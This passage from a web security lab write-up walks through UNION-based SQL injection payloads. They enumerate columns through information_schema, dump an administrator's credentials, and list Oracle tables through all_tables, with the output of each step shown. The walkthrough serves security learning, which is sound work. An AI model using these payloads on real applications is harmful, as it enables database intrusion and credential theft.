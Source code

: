 Notice interesting table ``users_kasudt``.

Get column names of interesting table.

```
' UNION SELECT null, COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_kasudt' --
```

Find the following columns:

```
username_jpfysl
password_bschpp
```

Now dump credentials.

```
' UNION SELECT username_jpfysl, password_bschpp FROM users_kasudt--
```

```
administrator
35e6fmdkxef6zuucbl0n
```

Login to complete the lab!

## [LAB] SQL injection attack, listing the database contents on Oracle

Given Information:

```
 On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

SELECT * FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT * FROM all_tab_columns WHERE table_name = 'USERS' 
```

Goal: Login as administrator.

Solution:

Find table names:

```
' UNION SELECT null, table_name FROM all_tables--
```

```
USERS_CQRSFI
```
